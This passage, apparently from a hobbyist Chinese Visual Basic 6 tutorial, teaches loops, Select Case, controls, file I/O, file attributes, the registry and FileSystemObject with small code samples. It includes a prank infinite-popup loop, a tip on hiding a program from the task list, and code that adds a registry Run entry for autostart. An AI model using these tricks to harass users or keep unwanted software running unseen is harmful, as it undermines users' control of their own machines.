For 循环是我们循环语句中用得最普遍的语句。其基本形式如下：

```vb
For 循环变量 = 初始值 To 终值 [Step 步长]
    [循环体]
    [Exit For]
Next [循环变量]
```

For 语句执行时，先把初始值赋给循环变量，然后判断循环变量是否超过终值，是则终止循环，否则执行循环体。至于步长，则是在执行循环体后循环变量需要增加的值，默认为 1。增加后继续判断循环变量与终值的大小，直到循环变量超过终值时结束整个循环。

我们来看下面两个例子：

```vb
Private Sub Form_Load()
    For i = 1 To 10 Step 3
        Sum = Sum + i
    Next i
    Debug.Print Sum
End Sub

Private Sub Form_Load()
    Sum = 0
    For i = 2 To 1
        Sum = Sum + i
    Next i
    Debug.Print Sum
End Sub
```

运行程序后如图1、2。可以得到第一段代码的结果输出 22，第二段代码的结果输出 0。我们来了解一下执行过程。

第一段代码：

- 1) `i = 1`
- 2) `Sum = Sum + 1`，`Sum = 1`
- 3) `i = i + 3`，`i = 1 + 3 = 4`
- 4) `Sum = Sum + 4`，`Sum = 1 + 4 = 5`
- 5) `i = i + 3`，`i = 4 + 3 = 7`
- 6) `Sum = Sum + 7`，`Sum = 5 + 7 = 12`
- 7) `i = i + 3`，`i = 7 + 3 = 10`
- 8) `Sum = Sum + 10`，`Sum = 12 + 10 = 22`
- 9) `i = i + 3`，`i = 10 + 3 = 13`
- 10) 因为 `i = 13 > 10`（终值），所以结束循环，得到 `Sum = 22`

那么，大家可以由此得出为什么第二段代码输出的结果是 0 了。因为 `i = 2 > 1`，所以直接退出循环而不执行循环体。那么我们怎么知道它究竟有没有执行循环体呢？大家可以在 `Sum = Sum + i` 的前一行加上 `MsgBox "test"` 一行代码，如果有弹窗，说明执行了代码，否则则没有执行代码。就 For 语句来说，个人感觉 C/C++ 的 For 语句比 VB 稍微灵活一些（对于初学者）。

#### 2.3 Select Case 语句

Select Case 语句其实是对一个表达式的判断，当符合条件时便执行相应的语句。相当于对一个表达式多次使用 If 语句来判断。其基本格式如下：

```vb
Select Case 测试表达式
    Case 表达式表列1
        语句块1
    [Case 表达式表列2
        [语句块2]]
    ...
    [Case Else
        [语句块N]]
End Select
```

我们依然通过例子来了解：

```vb
Private Sub Form_Load()
    x = 8
    Select Case x
        Case 1, 2
            Debug.Print "x=1 or x=2"
        Case Is >= 3, Is <= 5
            Debug.Print "3<=x<=5"
        Case 6 To 8
            Debug.Print "x belongs 6 to 8"
        Case Else
            Debug.Print "I don't know what number x is"
    End Select
End Sub
```

运行上述代码，程序会先测试 x 的值。然后从上向下依次检查 Case 的值。`Case 1, 2` 表示值为 1 或 2；`Case 6 To 8` 则表示值的范围是从 6 到 8。`Case Else` 语句表示上述没有列出的所有情况，相当于 C/C++ 中的 Default。与 C/C++ 不同的是，控制结构中，VB 中不用 Break 和 Continue 语句。上述代码的测试结果如图3。

我们会奇怪，为什么结果会输出“3<=x<=5”。因为在“Case Is >= 3, Is <= 5”这句代码中，“,”逗号实际上充当的是“Or”或语句的作用。也就是说测试的 x 值只要满足 `x >= 3` 或 `x <= 5` 的其中一个条件，Case 语句都会判断成功。有人问：“那么 x 的值在这也符合 `Case 6 To 8` 这句啊，为什么不会输出 `x belongs 6 to 8` 呢？”这也是由于前面说的，VB 中不用 Break 和 Continue 语句，每执行一个 Case 语句，如果判断失败，则执行下一个 Case 语句；如果判断成功的话，执行 Case 语句下面的语句块之后，就会自动退出 `Select Case x` 这个过程。简单地来说，就是从上往下开始判断，只要判断到一个成功就行了，后面的表达式不管再怎么符合结果也不用去管它。

思考：如何将上述代码用 If 语句表示出来。

#### 2.4 While 语句

While 语句有两种形式，下面我分别给大家讲一下。

第一种的格式如下：

```vb
While 条件
    [语句块]
Wend
```

看下面两段代码：

```vb
Private Sub Form_Load()
    x = 0
    While x < 2
        x = x + 1
    Wend
    Debug.Print x
End Sub
```

```vb
Private Sub Form_Load()
While 1
    x = x + 1
    Debug.Print x
Wend
End Sub
```

第一段代码输出的结果为 2，而第二段代码大家运行后就会发现立即窗口会不停地输出数字（程序会卡死的）。因为 While 后面的条件返回的是布尔值，前面我们说过，当布尔值为非零时，值都为 True。当 While 后的条件成立时自然会执行循环体。所以就构成了无限循环（或叫死循环）。

Do While...Loop 是 While 语句的第二种形式。又分为两种格式，基本格式如下：

```vb
格式1:
Do [While|Until 循环条件]
    [语句块]
    [Exit Do]
Loop

格式2:
Do
    [语句块]
    [Exit Do]
Loop [While|Until 循环条件]
```

大家看到，基本格式中的 While|Until 都是出现在方括号中的，也就是可以省略掉，就形成了 Do...Loop 的格式。Do...Loop 才是这里循环语句的实质，是强制循环的意思。在这里就不再贴出示例代码了，大家可以自己试一试。我们来看一段恶作剧代码。

```vb
Private Sub Form_Load()
Do
    MsgBox "你关不掉的，哈哈"
Loop
End Sub
```

运行后会出现一个弹窗，然后点击确定后会继续弹出。不过我们可以用进程管理器把进程给 kill 掉就行了。

提示：这里是用 VB 编译的程序，可以用任务管理器直接关掉任务（因为出现了窗体，我们也可以用模块来写，这样才不会有窗体）；如果用 VBS 脚本代替的话则只能结束进程，因为那是无窗口的。在 VB 中，我们可以使用 `App.TaskVisible = False` 这句来达到同样的目的。

### 第三章 控件

控件作为可视化编程的重要组成部分之一，是要求我们必须掌握的。学会巧妙地运用控件，能处理一些看起来比较复杂的问题。不过在之前，我们需要了解一些关于控件的基本知识。

系统的标准控件的图标显示在编译器左边的“工具箱”中，我们一般直接叫做控件栏。其使用方法有点像画图，点击图标，然后将它画在窗体上，一个控件就成功地添加到了窗体上。我们最简单的要求是掌握控件的基本属性和事件。对于事件，我们在讲 Sub 过程也有说到，事件是附加在控件上的 Sub 过程，所以我们说到事件的话，一般都是指某个控件的事件。

对于控件来说，我们说得太多也没有什么意义，因为不同的控件自然是有不同的功能。控件的学习上，我们只需要了解控件的属性和控件的事件。

#### 3.1 控件的属性

我们先来看看一般控件的通用属性，就是许多控件都有的属性。

- **名称**：设置控件的名称，以便对控件进行操作。
- **Caption**：部分控件有，部分没有（例如 TextBox）。用于设置控件标题，例如窗体标题、按钮上的字、标签上的标签内容。
- **Enabled**：决定对象是否可用（不可用的时候一般会变为灰色）。
- **Height**：设置对象的高度。
- **Left**：设置对象与容器左边缘的距离。
- **Top**：设置对象与容器顶部边缘的距离。
- **Visible**：决定对象是否可见。当 Visible 的值为 False 时，只在设计时可以看见控件。
- **Width**：设置对象的宽度。

以上就是一般控件的通用属性，它们和控件本身的功能没有什么联系。

说完通用属性之后，接下来要说的是不同控件独有的属性，它们才决定着控件的功能和样式。我只选取一些比较实用的属性来说，更多属性大家可以打开 VB，画上一个控件，然后看属性栏即可。属性栏中显示了控件的属性；当鼠标点击属性栏中的属性时，属性栏的下面会提示该属性的作用。

##### 3.1.1 Label 控件

Label 控件是标签控件，其图标是一个“A”字。Label 控件一般被我们用来给用户做提示，比如在文本框前面放一个 Label 控件，提示用户是应该在这个框内输入用户名还是密码之类的。

我们常用的属性如下：

- **Font**：设置标签的字体、大小等信息。
- **ForeColor**：设置字体的颜色。
- **Alignment**：对齐方式，即左对齐、右对齐和居中。
- **AutoSize**：决定控件是否能自动调整大小来适应标签内容。
- **BackStyle**：设置标签背景是否透明。
- **BorderStyle**：设置边框样式。

##### 3.1.2 TextBox 控件

TextBox 控件是文本框控件，用于提供用户输入文本信息，例如帐号、密码等。

常用属性如下：

- **Font**：设置文本框内容的字体、大小等信息。
- **ForeColor**：设置字体的颜色。
- **Locked**：决定文本框是否可以编辑，即是否可以修改文本框的内容。
- **MaxLength**：设置文本框最大输入长度，输入的时候无法超过最大长度。
- **MultiLine**：决定文本框是否支持多行文本（设置为支持多行后还可修改 ScrollBars 属性来选择滚动条的样式），默认 TextBox 控件只能支持单行文本，即 MultiLine 初始值为 False。
- **PasswordChar**：设置是否在文本框显示用户输入的字符（简单的是星号密码，即在这里输入“*”号）。
- **Text**：文本框中的内容。

##### 3.1.3 Command 控件

Command 控件是按钮控件，一般我们用它来控制其它事件或过程的终止，用得最多的是它的 Click 事件而不是属性。

最最常用属性如下（虽然是最最，但是一般还是很少用）：

- **Cancel**：设置命令按钮是否为窗体的取消按钮（值为 True 时，在窗体中按下 ESC 键会触发此按钮事件）。
- **Default**：决定窗体的缺省命令按钮（按下回车键触发事件）。

##### 3.1.4 ListBox 控件

List 控件是列表控件，作用看情况而定，我经常用来测试数据。

常用属性如下：

- **Columns**：决定列表框的滚动条是向下滑还是向右滑。这个属性的值是整型数据，0 的时候滚动条向下滑；大于 0 的时候（假设为 n），就是当前大小中能显示多少列。比如说 n=4 时，以当前控件的大小只能显示 4 列，如图 1。
- **List**：列表框中包含的项，即内容。
- **MultiSelect**：决定是否可以对列表框的项做多重选择。
- **Sorted**：决定项是否按字母顺序排列。
- **Style**：决定控件中是否有复选按钮（值为 1 时，即有复选框时，MultiSelect 的值必须为 0）。

图 1

##### 3.1.5 Timer 控件

Timer 控件是计时器控件，也叫时钟控件。起到一个延时的作用。它的属性不多，最重要的属性是 **Interval**，用于设置时间间隔，以毫秒为单位，且 Interval 的值只能取 0~65535（2^16-1）的整数。每过一个时间间隔，Timer 控件中的 `Timer_Timer()` 事件过程中的代码就执行一次，除非它的 Enabled 属性为 False，否则会一直重复这个过程，直到程序结束。

控件的属性设置效果图如图 2。

图 2

#### 3.2 控件的事件

不同的控件有着一些不同的事件，下面我们直接通过例子来说明。

我们添加一个 Label 控件，一个 TextBox 控件，一个 Timer 控件和两个 Command 控件。需要修改的属性分别如下：

```vb
TextBox的属性
  Text：（设置为空白）
  PasswordChar：*

Timer的属性
  Interval：1

Command1的属性
  Caption：当前密码

Command2的属性
  Caption：显示星号

属性设置完后在代码窗口中输入如下代码：

Dim t As Integer

Private Sub Command1_Click()
MsgBox Text1.Text
End Sub

Private Sub Command2_Click()
Text1.PasswordChar = "*"
End Sub

Private Sub Text1_Change()
t = t + 1
Label1.Caption = "TextBox已变更" & CStr(t) + "次"
End Sub

Private Sub Timer1_Timer()
If Text1.Text = "hackerxfiles" Then
    MsgBox "密码验证成功"
    Timer1.Enabled = False
End If
End Sub
```

得到的测试结果分别如图 3、图 4（图 3 到图 4 的过程中点击过“显示星号”按钮）。

在代码中，我们分别展示了按钮控件的 Click 事件、文本框控件的 Change 事件，以及时钟控件的 Timer 事件。Click 是点击事件，即当用户用鼠标在控件范围内鼠标左键单击的话就会执行代码。文本框的 Change 事件是在文本框的内容发生变化的时候触发的，无论是内容增加或减少，只要内容有变化都会触发。这里只是展示了所有控件的一小部分中的一小部分属性和事件，但实际上它们的用法都是一样的。对于属性来说，我们要记住一些控件特有的属性就行，事件也是如此。我们不可能将所有的控件属性和事件都背下来，但是在用到的时候学会积累，就能很好地掌握这一块了。毕竟，我们不是为了考试而学的。

图 3

#### 3.3 自定义控件

除了系统自带的控件，还存在许多第三方控件，我们称其为自定义控件。自定义控件使我们的程序更灵活了，功能更强大了。或者说，自定义使我们做程序变得方便起来。现在我就用一个最简单的例子教大家制作自定义控件，理解它的好处。

首先我们新建一个工程，添加一个窗体，再添加一个控件（名称为 EText）。然后我们进入控件设计窗，添加一个 TextBox 控件（名称为 TBox1）、一个 Label 控件和一个 Timer 控件，将 Timer 控件的 Interval 属性的值设为 1。输入以下代码：

```vb
Private m_Text As String
Dim Temp

Private Sub TBox1_Change()
    Temp = TBox1.Text
    Text = Temp
End Sub

Private Sub Timer1_Timer()
    Label1.Caption = Now
End Sub

Private Sub UserControl_ReadProperties(PropBag As PropertyBag)
    Call PropBag.ReadProperty("Text", m_Text)
End Sub

Private Sub UserControl_Resize()
    Label1.Left = UserControl.Width - 1000
    TBox1.Width = UserControl.Width - 1000
    TBox1.Height = UserControl.Height - 1000
    Label1.Width = 1000
End Sub

Private Sub UserControl_WriteProperties(PropBag As PropertyBag)
    Call PropBag.WriteProperty("Text", m_Text)
End Sub

Public Property Let Text(ByVal New_Text As String)
    Temp = New_Text
    TBox1.Text = Text
End Property

Public Property Get Text() As String
    Text = Temp
End Property
```

这里是控件的代码。然后我们在窗体中加入两个按钮，标题分别为“显示内容”和“修改内容”，在代码窗中写下如下代码，再把我们设计好的控件添加上去，调整一下大小就可以运行程序了。

```vb
Private Sub Command1_Click()
MsgBox EText1.Text
End Sub

Private Sub Command2_Click()
EText1.Text = "常笑鹰"
End Sub
```

我们在文本框中输入任意内容，然后点击“显示内容”，屏幕上就会弹出一个对话框，对话框中是我们文本框中的内容。再点击“修改内容”，可以发现文本框中的内容已经变成了“常笑鹰”三个字。来看看我们使用的语句，可以发现这是对一个对象属性的操作。也就和我们使用的系统控件的使用方法一样了。对于初学者来说，不要求大家懂得设计控件，在很多 VB 的入门中也少有教设计自定义控件的，所以在这里我就不再多说了。况且我对控件的设计也不太熟，所以也没办法教大家。（测试图如图 5）

提示：

- 1. 我在代码中使用了 `TBox1.Width = UserControl.Width - 1000` 这句语句，若你画控件的时候控件宽度达不到 1000，就会提示“属性值无效”。并且这里的无效指的是 `TBox1.Width` 无效（因为值是赋给 `TBox1` 的）。
- 2. 这个控件的文本框旁有个时间显示，部分被遮住了，这是因为我对它的位置没有设置好，但是代码本身是没有错误的。

图 4

#### 3.4 控件的移植

VB 作为可视化编程语言，控件是一大特色。使用控件可以使我们的界面更漂亮、更直观，使用户操作更方便。当然，除了美化界面所有看到的控件，还有很多控件是为了实现或增强一些功能的。不过不管是怎样，它们都存在一个共同的问题，那就是移植。

我们知道，如果代码没有问题的话，你的程序可以顺利通过编译并且运行。而实际上有时你将程序移植到其它机器上，运行就会出现错误。为什么？其实你之所以能在你的机器上面运行你的程序，这得益于你在安装编译器的时候同时安装了许多类库。在设计阶段，你在添加控件的同时，实际上它已经注册了控件。但是在别的机器上很可能连控件都没有，所以程序运行时就会缺少控件，提示错误。

So，我们应该如何面对这个问题呢？网上有许多方法可将控件打包，例如将控件作为资源文件添加到程序中，运行时就释放它，或是用工具直接将其封装。不过这些方法我都不推荐。因为如果将控件封装起来，运行程序后，控件解封的过程就产生了一个延迟，这令我们非常不悦。

那么，怎样才能使我们的程序移植性更强呢？

我的答案是使用开源的控件或者可替代的类。我认为这是一个很好的做法。使用开源控件和类，一方面大大增加了程序的可移植性，另一方面还有助于我们理解控件原理以及学习控件的制作。这个开源的控件和类呢，就需要我们平时收集程序的时候自己慢慢收集起来，因为很多好的控件并不是开源的。还有，如果是我们自己做的程序（指非商业的），我们大可以不用第三方控件去美化界面。

### 第四章 文件

文件编程是编程中非常非常重要的一部分，那么有多重要呢？总之我们去参加 NOIP 竞赛培训（我学的是 C，有蛮多高手都在隔壁学 Pascal）的时候老师就说了，必须要知道怎么打开和写入文件，否则你其它懂得再多，题目完全会做也没用。而我就是那种会打开文件却不喜欢用它的人，偏偏喜欢弄个循环 scanf 把数据一个个地输进去，而题目又完全不会做，所以复赛的时候才悲剧地只拿了 50 分（400 分满），今年拿了 200（600 分满），得了个二等奖。那么操作文件的真正意义是什么？大家也许在平时使用程序的时候都没发觉文件在读写，实际上它们都是进行着的。比如拿 QQ 来说，它在刚开始运行的时候会从它的目录下读取很多很多的数据，才知道曾经在你电脑登录过的号码，才知道你是否选择了保存密码和自动登录，才知道你喜欢用什么样的皮肤等等。也许你觉得你从来没发现过这些事，实际上程序对文件的操作是你不可见的，我们在学习的时候只是用文本框来将其表现出来而已，好让你看到你确实对文件进行了操作。我们也可以将文件中的内容直接保存到变量中，而不显示出来。

#### 4.1 文件操作

现在先来教一下大家使用 VB 函数对文件进行复制删除等操作。

FileCopy 函数：

```vb
FileCopy name1, name2
```

上面是 FileCopy 语句的基本形式，意思是将 name1 文件复制到 name2。其中 name1 和 name2 都要包含路径、文件名和扩展名。如果我们对一个已经打开的文件使用 FileCopy 语句，则会出现错误。

Name 语句：

```vb
Name name1 As name2
```

上面是 Name 语句的基本形式，意思是将 name1 移动到 name2。同样要求 name1 和 name2 包含路径、文件名和扩展名。Name 语句也常用来对文件进行重命名。

```vb
Kill filename
```

上面是 Kill 语句，也就是删除语句，可将文件删除。与 FileCopy 和 Name 不同的是，它可以使用通配符。如 `Kill "F:\a\*.txt"` 即可将 `F:\a` 目录下的所有 txt 文件删除。

```vb
Mkdir
```

Mkdir 语句用来创建一个文件夹，基本形式为 `Mkdir filename`，要求 filename 原先不存在。

```vb
Rmdir
```

Rmdir 语句用来删除一个文件夹，基本形式为 `Rmdir filename`，与 Mkdir 相反，它要求文件夹原先存在。

#### 4.2 文件读写

##### 4.2.1 文件的打开与关闭

在前面我已经告诉过大家，知道如何打开并写入文件是一件多么重要的事情了，现在就来教大家如何读写文件。

在我们对文件进行读写之前，我们要做的是打开一个文件，VB 中用的是 Open 语句，基本形式如下：

```vb
Open 文件说明 [For 方式] [Access 存取类型] [锁定] As [#]文件号 [Len = 长度]
```

文件说明：在 VB 中，文件说明的格式一般为：

设备名: 文件引用名

设备名是存放文件的设备的名称，如磁盘、磁带、打印机之类的。文件名长度最多不超过 255 个字符；可以是中文，也可以是英文，但是不能出现如“？”问号之类的特殊符号。

For 方式：指定文件的输入输出方式，有下列几种方式。

- Output：顺序输出文件。
- Input：顺序输入文件。
- Append：追加方式输出文件。
- Random：随机方式。
- Binary：二进制访问。

For 方式中，使用 Input 和 Output 方式时，文件指针会被定位在文件头，而使用 Append 的时候就会被定位在文件末尾。使用二进制访问文件，可以使用 Get 和 Put 语句对文件中任何字节的位置的信息进行读写。

Access 存取类型：指定访问文件的类型，有下列几种类型。

- Read：打开只读文件。
- Write：打开只写文件。
- Read Write：打开读写文件。

Read Write 类型只对随机文件和二进制文件以及用 Append 方式打开的文件有效。

锁定：在多用户或多进程环境中使用，用来限制其他用户或其它进程对打开的文件进行读写操作。因为不怎么用到，所以这里我们就不说了，想了解的可以自己查资料。

文件号：值在 1 到 511 范围内的整型表达式。

记录长度：为随机存取文件设置记录长度。对于顺序文件，该值是缓冲字符数。记录长度的值不能超过 32767 字节。二进制中，将其忽略。

当我们对文件操作完毕之后，需要将文件关闭。使用的是 Close 语句，格式为：

```vb
Close [[#]文件号]
```

提示：如果我们不关闭文件的话，在程序结束时，程序也会自动将未关闭的文件给关掉。或者在使用 Close 语句时不加上文件号，程序就会将所有未关闭的文件给关掉。

##### 4.2.2 文件函数

在这里我们介绍三个文件函数，分别是 LOC、LOF 和 EOF 函数，其实大家在网上的教程中还可以看见……FreeFile 也被列为常用文件函数，不过事实上我们用得很少，因为一般都会自己定义文件号。上述三个函数的用法都是：函数名（文件号）。

- LOC：返回文件当前位置。
- LOF：返回文件长度。
- EOF：判断文件指针是否在结束位置。

##### 4.2.3 文件读写函数

在我们打开文件之后，就可以对文件进行读写操作了。也是通过函数完成（废话）。有 Input（包括 Input#、Line Input）、Print、Write 等函数，用法分别如下：

###### Input#

- 格式：`Input #<文件号>, <变量列表>`
- 功能：从打开的文件中顺序读入数据，并保存到变量列表之中。

###### Line Input

- 格式：`Line Input #<文件号>, <字符串变量>`
- 功能：从已打开的文件中顺序读出一行数据，并保存到字符串变量之中。

###### Input

- 格式：`Input <读取的字符数>, #<文件号>`
- 功能：读取指定数目的字符，以字符串的形式返回。

###### Print

- 格式：`Print #文件号, [表达式表]`
- 功能：写入文件。

###### Write

- 格式：`Write #文件号, 表达式表`
- 功能：写入文件。假若有变量 `str = "hackerxfiles"`，则用 Write 语句写入时，将引号也写入。写入两个表达式，如 `Write a,b` 时，会将逗号写入。

#### 4.3 文件属性操作

##### GetAttr

GetAttr 函数用于返回一个文件或文件夹的属性，基本形式为 GetAttr(name)，name 指定一个文件或一个文件夹。返回的值如下：

| 常数 | 值 | 描述 |
|---|---:|---|
| vbNormal | 0 | 常规 |
| vbReadOnly | 1 | 只读 |
| vbHidden | 2 | 隐藏 |
| vbSystem | 4 | 系统文件 |
| vbDirectory | 16 | 目录或文件夹 |

要判断文件的某个属性，需要将其与 GetAttr 函数返回的结果用 And（与）运算符进行比较。看如下代码：

```vb
x = GetAttr("F:\1.txt") And vbReadOnly
```

若 x 返回非 0，则 F:\1.txt 被设置了只读属性，反之则没有设置只读属性。

##### SetAttr

SetAttr 与 GetAttr 相反，是用于设置文件属性的。其函数的基本形式为：

```vb
SetAttr 文件名, 属性名
```

- vbNormal 0 常规
- vbReadOnly 1 只读
- vbHidden 2 隐藏
- vbSystem 4 系统文件
- vbArchive 32 上次备份后，文件已经改变

如设置 F:\1.txt 为只读文件，则为 `SetAttr "F:\1.txt", vbReadOnly`。


#### 4.4 文件读写程序实例

首先我们画两个文本框，TextBox2 的 MultiLine 属性设置为 True，然后画两个按钮控件，caption 属性分别为“读取文件”和“写入文件”。窗体布局如图 1。

```vb
Private Sub Command1_Click()
    On Error Resume Next
    Dim oFile As String
    oFile = InputBox("请输入文件名", "提示", "d:\filetest.txt")

    If oFile <> "" Then
        Open oFile For Input As #1
        Dim Lines As String
        Dim NextLine As String
        Dim I As Integer

        Do While Not EOF(1)
            Line Input #1, NextLine
            Lines = Lines & NextLine & Chr(13) & Chr(10)
        Loop

        Close #1
        Text1.Text = Lines
        Text2.Text = "正在浏览：" & oFile & "..."
    End If
End Sub

Private Sub Command2_Click()
    On Error Resume Next
    Dim oFile As String
    oFile = InputBox("请输入文件名", "提示", "d:\filetest.txt")

    If oFile <> "" Then
        Open oFile For Output As #2
        Print #2, Text1.Text
        Close #2
        Text2.Text = "正在浏览：" & oFile & "..."
        Exit Sub
    End If
End Sub
```

程序分析：

读取文件后和点击“读取文件”按钮得到的结果如图 2。

首先在 Command1 的 Click 事件中，第一行 On Error Resume Next 是容错语句，意思是当程序遇到错误的时候忽略错误而继续往下运行。然后我们定义 oFile 来保存文件名。If 中的部分就是对文件的读取操作，我们先用 If 来判断文件名是否为空（空的话肯定会出错的嘛），不为空的话就对文件进行读取操作。这里用 Do While 来判断文件是否到了文件末端。因为前面我们说过 EOF 的作用就是用来判断文件指针是否在结束位置，是的话返回 True，否则返回 False。所以我们使用 Not EOF(1) 来表示文件指针不在结束位置，文件的读取才能进行下去。然后我们用 Line Input 逐行读取，Chr(13) 和 Chr(10) 是换行的意思，13 和 10 分别是回车、换行的 ASCII 码。分析到这里 Command1 中 Click 事件的代码基本上就没有难度了，Command2 中的事件也是类似的，只不过是写入文件而已，所以就不解释了。

提示：EOF 在这里是个函数，在 C 语言中是个数值很大的整型常量。

Print 函数可一次将内容直接全部写入文件。


图1


图2

#### 4.5 CommonDialog 控件

CommonDialog（这里简称 CDG）控件是一个与文件操作联系紧密的对话框控件。本质上来说，文件操作是否可以进行与 CDG 控件存在与否没有关系，但是如果使用了 CDG 控件，就会使用户的操作方便得多。

CDG 控件提供了例如打开、保存、字体之类的对话框，分别对应不同的方法。下面是 CDG 控件的方法和对应的对话框类型：

| 方法 | 所显示的对话框 |
|---|---|
| ShowOpen | 显示“打开”对话框 |
| ShowSave | 显示“另存为”对话框 |
| ShowColor | 显示“颜色”对话框 |
| ShowFont | 显示“字体”对话框 |
| ShowPrinter | 显示“打印”或“打印选项”对话框 |
| ShowHelp | 调用 Windows 帮助引擎 |

我们在制作记事本或其它需要打开文件的程序时，就需要用到如下类型的代码：

```vb
Private Sub Command1_Click()
    On Error Resume Next
    Dim oFile As String

    CDG.ShowOpen
    oFile = CDG.FileName

    If oFile <> "" Then
        Open oFile For Input As #1
        Dim Lines As String
        Dim NextLine As String
        Dim I As Integer

        Do While Not EOF(1)
            Line Input #1, NextLine
            Lines = Lines & NextLine & Chr(13) & Chr(10)
        Loop

        Close #1
        Text1.Text = Lines
        Me.Caption = oFile
    End If
End Sub
```

我们运行程序后，点击按钮，然后出现如图 3 的对话框。随便双击一个文件，这里我点的是“工程1.vbp”；然后得到如图的结果。程序中我们使用了一个 CommonDialog 控件，一个按钮和一个 TextBox 控件。

其中设置 TextBox 的 MultiLine 属性为 True，即支持多行显示。然后设置它的 ScrollBars 属性值为 2-Vertical，就是有一个垂直的滚动条。不难看出，我们双击的文件名被 CDG 的 FileName 属性记录了下来，然后我们使用 oFile 这个变量来保存。后面就是文件的打开过程，不多说了。

提示：CommonDialog 控件为非标准控件，在工具箱加载时是不会出现的。我们需要在工具箱中按鼠标右键，然后选择“部件...”，找到“Microsoft Common Dialog Control 6.0 (SP6)”，然后在它前面的框上打上勾，按确定，CommonDialog 控件就会出现在工具箱了。


图3

#### 4.6 注册表

注册表是 Microsoft Windows 中的一个重要的数据库，用于存储系统和应用程序的设置信息。事实上，它是一个信息量相对较大的通用数据库，任何程序都可以对它进行修改（在有足够的权限时）。当然，你没事的时候可以随便创建一些键值来玩也没问题，只要不影响原来的设置就好。

注册表由键（或称“项”）、子键（子项）和值项构成。一个键就是分支中的一个文件夹，而子键就是这个文件夹中的子文件夹，子键同样是一个键。一个值项则是一个键的当前定义，由名称、数据类型以及分配的值组成。一个键可以有一个或多个值，每个值的名称各不相同，如果一个值的名称为空，则该值为该键的默认值。

比如我们想让一个程序开机自动运行，我们就在 `[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]` 中新建一个值项，这里我用 ctfmon.exe 做示范。在此项下，我们点击右键，新建一个字符串，名字任意，这里我们就输入程序名 ctfmon.exe。然后值输入程序所在的路径 `C:\WINDOWS\system32\ctfmon.exe`。开机的时候 ctfmon.exe 就会随着自己启动了。

##### VB 操作注册表

在 VB 中，我们操作注册表可以用 API 来实现。三个 API 函数分别是 RegSetValue、RegCreateKey、RegCloseKey，其作用是设置某一个子项的值、打开一个主键、关闭对注册表主键的操作。还有两个用于删除键值的函数 RegDeleteKey 和 RegDeleteValue，在这里我就不写出来了，用法是一样的。这些函数我们都可以在 VB API 函数使用手册中找到（后面会讲 API）。我们在窗体上添加一个按钮，然后写入声明和代码：

```vb
' API声明
Private Declare Function RegSetValue Lib "advapi32.dll" Alias "RegSetValueA" (...) As Long
Private Declare Function RegCreateKey Lib "advapi32.dll" Alias "RegCreateKeyA" (...) As Long
Private Declare Function RegCloseKey Lib "advapi32.dll" (...) As Long
```

```vb
' 常量
Const HKEY_CURRENT_USER = &H80000001
Const REG_SZ = 1

Private Sub Command1_Click()
    Dim r As Long
    RegCreateKey HKEY_CURRENT_USER, "Software\Microsoft\Windows\CurrentVersion\Run", r  ' 打开主键
    RegSetValue r, "TXQQ", REG_SZ, ByVal "D:\QQ\Bin\QQ.exe", LenB("D:\QQ\Bin\QQ.exe")  ' 写入值
    RegCloseKey r  ' 关闭
End Sub
```

运行程序，我们可以看到图 4 中的效果，键已经被成功写入。


图4

### 第五章 FSO（文件操作）

FSO 是个非常强大的东西，一般在 VB 中用得比较少，而在 VBS 中就用得非常多了。这是因为 VB 封装了很多函数，所以比较方便，而 VBS 则需要创建 FSO 对象来完成对文件的操作。

创建 FSO 有两种方法，一种是使用 New 关键字，另一种是用 CreateObject 函数来创建。这里我们使用 CreateObject 对象，是因为使用 New 关键字来声明的话需要在工程中设置引用 Scripting Runtime 类型库，比较麻烦（对我这种懒人来说）。用函数创建的方法如下：

```vb
Dim fso As Object
Set fso = CreateObject("scripting.filesystemobject")
```

上述代码我们用 CreateObject 来创建对象，scripting 是类型库的名称，filesystemobject 是对象的名称。FSO 对象模型包括以下对象：

#### 对象描述

- **Drive**：允许收集关于系统所用的驱动器的信息，诸如驱动器有多少可用、其共享名称是什么，等等。
- **Folder**：允许创建、删除或移动文件夹，并向系统查询文件夹的名称、路径等。
- **Files**：允许创建、删除或移动文件，并向系统查询文件的名称、路径等。
- **FileSystemObject**：该组的主要对象，提供一整套用于创建、删除、收集相关信息以及通常的操作驱动器、文件夹和文件的方法。与本对象相关联的很多方法复制了其它对象中的方法。
- **TextStream**：允许读和写文本文件。

为了显示它功能的强大，这里我们举几个例子来说明：

#### 5.1 文件操作常用方法

##### 1) CopyFolder

该方法用来复制文件夹，基本形式为 `fso对象名.CopyFolder 源文件夹, 目的文件夹[, True|False]`。如果目的文件夹后面为 True，那么当目的文件夹已存在时就进行覆盖；如果为 False，目的文件夹存在则会出现错误，这个值默认为 True。举个例子来说，有两个文件夹分别是“E:\zz1”和“E:\zz2”，且有如下代码：

```vb
fso.CopyFolder "E:\zz1", "E:\zz2", False
```

则程序运行时就会出现错误并给出提示，如图1。


##### 2) DeleteFolder

该方法用来删除文件夹。基本形式为 `fso对象名.DeleteFolder 文件夹路径[, True|False]`。如果文件夹路径后面为 True，那么当文件夹的属性为只读时也被删除，否则无法删除强制文件，这个值默认为 False。测试结果如图2。


##### 3) GetParentFolderName

该方法用于返回一个包含指定路径最后部件父文件夹名字的字符串，基本形式为 `fso对象名.GetParentFolderName(路径)`。举例，有如下代码：

```vb
MsgBox fso.GetParentFolderName("E:\zz1")
```

结果返回“E:\”。

如果路径指定的部件没有父文件夹，则该方法返回 0 长度的空字符串。例如有如下代码：

```vb
MsgBox fso.GetParentFolderName("E:\")
```

结果返回字符串“”。

提示：GetParentFolderName 只负责返回父文件夹名字，并不负责判断文件夹是否存在。也就是说，当你所给的路径不正确时，该方法有时候依然能正常返回一个字符串。假设路径“E:\NotExist”不存在，则 `fso.GetParentFolderName("E:\NotExist")` 依然会返回“E:\”。


##### 4) GetFile

该方法用于返回一个文件对象。基本形式为 `fso对象名.GetFile(文件路径)`。

```vb
Dim fso As Object
Set fso = CreateObject("scripting.filesystemobject")
Dim f As Object
Set f = fso.GetFile("D:\filetest.txt")
MsgBox f.Type
```

上述代码我们定义 f 为对象类型变量，用该方法返回了“D:\filetest.txt”这个文件对象，然后显示它的 Type 属性。Type 属性是关于文件类型的信息，下面我们还会提到。如果是获取文件夹对象，则使用 GetFolder 方法，基本形式与此方法类似。测试结果如图3。

##### 5) GetBaseName

该方法用来返回一个包含指定路径最后部件的基本名字的字符串，即去掉扩展名后的名字。基本形式为 `fso对象名.GetBaseName(文件路径)`。例如有如下代码：

```vb
MsgBox fso.GetBaseName("D:\filetest.txt")
```

如图4，我们可以看到返回的字符串中没有“.txt”扩展名。

##### 6) GetExtensionName

